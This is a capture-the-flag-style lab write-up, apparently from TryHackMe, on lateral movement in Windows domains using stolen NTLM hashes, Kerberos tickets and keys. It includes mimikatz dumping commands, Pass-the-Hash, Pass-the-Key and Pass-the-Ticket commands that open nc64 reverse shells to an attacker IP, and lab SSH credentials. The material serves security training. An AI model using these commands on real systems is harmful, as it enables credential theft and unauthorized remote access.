Alternate Authentication
Use oF Alternate Authentication Material
By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work. In this task, we will take a look at a couple of alternatives available to log as a user when either of the following authentication protocols is available on the network:
▪ NTLM authentication
▪ Kerberos authentication
Note: During this task, you are assumed to be familiar with the methods and tools to extract credentials from a host. Mimikatz will be used as the tool of choice for credential extraction throughout the room.
NTLM Authentication
Before diving into the actual lateral movement techniques, let's take a look at how NTLM authentication works:

Steps
1. The client sends an authentication request to the server they want to access.
2. The server generates a random number and sends it as a challenge to the client.
3. The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
4. The server forwards both the challenge and the response to the Domain Controller for verification.
5. The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server.
6. The server forwards the authentication result to the client.
Note: The described process applies when using a domain account. If a local account is used, the server can verify the response to the challenge itself without requiring interaction with the domain controller since it has the password hash stored locally on its SAM.
Pass-the-Hash(PtH)
As a result of extracting credentials from a host where we have attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.
Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can Pass-the-Hash (PtH) and authenticate successfully.
To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.
A) Extracting NTLM hashes from local SAM:
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
B) Extracting NTLM hashes from LSASS memory:
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv
We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
Notice we used token::revert to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.
This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.
To receive the reverse shell, we should run a reverse listener on our AttackBox:
AttackBox
nc -lvp 5555
Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.
Passing the Hash(PtH) Using Linux:
If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:
Connect to RDP using PtH:
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
Connect via psexec using PtH:
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
Note: Only the linux version of psexec support PtH.
Connect to WinRM using PtH:
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
Kerberos authentication
Let's have a quick look at how Kerberos authentication works on Windows networks:
1. The user sends his username and a timestamp encrypted using a key derived from his password to the Key Distribution Center (KDC), a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
The KDC will create and send back a Ticket Granting Ticket (TGT), allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a Session Key is given to the user, which they will need to generate the requests that follow.
Notice the TGT is encrypted using the krbtgt account's password hash, so the user can't access its contents. It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.

2. When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a Ticket Granting Service (TGS). TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a Service Principal Name (SPN), which indicates the service and server name we intend to access.
As a result, the KDC will send us a TGS and a Service Session Key, which we will need to authenticate to the service we want to access. The TGS is encrypted using the Service Owner Hash. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.

3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

Pass-the-Ticket(PtT)
Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to use that ticket; therefore, both are necessary.
While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).
Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:

Note: We need to exit from mimikatz to check the above. Then in the CMD we can run winrs.exe to connect to the Remote Server with the ticket in the session.
winrs.exe -r:THMIIS.za.tryhackme.com cmd
Overpass-the-hash(OPtH) / Pass-the-Key(PtK)
This kind of attack is similar to PtH but applied to Kerberos networks.
When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name Pass-the-key (PtK).
We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (nc64 is already available in THMJMP2 for your convenience):
If we have the RC4 hash:
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
If we have the AES128 hash:
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
If we have the AES256 hash:
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).
In the Reverse Shell Received, we will still be in the THMJMP2 Machine and be showing as old user. But we can run the following to Pivot into the server & there the new username will be reflected.
winrs.exe -r:THMIIS.za.tryhackme.com cmd
Room Task
To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:
User: ZA.TRYHACKME.COM\t2_felicia.dean
Password: iLov3THM!
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
These credentials will grant you administrative access to THMJMP2, allowing you to use mimikatz to dump the authentication material needed to perform any of the techniques presented during this task.
Using your SSH session, use mimikatz to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain user t1_toby.beck.
Once you have a command prompt with his credentials loaded, use winrs to connect to a command prompt on THMIIS. Since t1_toby.beck's credentials are already injected in your session as a result of any of the attacks, you can use winrs without specifying any credentials, and it will use the ones available to your current session:
winrs.exe -r:THMIIS.za.tryhackme.com cmd
A) Pass-the-Hash [PtH] (Practical)
privilege::debug
token::elevate
sekurlsa::msv

Then, we search for our required user.

Start a Listener on Port 5555
Next, use this NTLM hash inside mimikatz to create a reverse connection.
token::revert
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.67.27 5555"

In Our Listener,

We got a connection, however it shows as OLD user & we are currently in the THMJMP2 machine. Lets use winrs.exe
winrs.exe -r:THMIIS.za.tryhackme.com cmd
It will take the user's authentication from memory.

Thus, we have successfully pivoted to the server as user t1_toby.beck.
B) Pass-the-Key [PtK]/Overpass-the-Hash (Practical)
(OPtH) is described when we use rc4 encryption.
However, i will use aes256 (PtK)
privilege::debug
sekurlsa::ekeys

Next, we find our target user.

Note: I also tired rc4 key. It also works the same way as per its syntax in the theory above.
Start a Listener on Port 5556
Then, use this aes256 encryption key for reverse connection.
In Mimikatz:
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /aes256:6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e /run:"c:\tools\nc64.exe -e cmd.exe 10.50.67.27 5556"

In Our Listener,

We got a connection, however it shows as OLD user & we are currently in the THMJMP2 machine. Lets use winrs.exe
winrs.exe -r:THMIIS.za.tryhackme.com cmd
It will take the user's authentication from memory.

Thus, we have successfully pivoted to the server as user t1_toby.beck.
C) Pass-the-Ticket (Practical)
privilege::debug
sekurlsa::tickets /export

Next, we search for our IIS server (if any ticket is available)

Lets import the ticket.
kerberos::ptt [0;16a8b22]-0-0-40a10000-t1_toby.beck@HTTP-THMIIS.za.tryhackme.com.kirbi
Next, exit out of mimikatz.exe & run klist to verify if ticket was added successfully.

As our ticket is added to the session, We can directly run winrs.exe to get into IIS Server with the user t1_toby.beck

Thus, we have successfully pivoted to the server as user t1_toby.beck.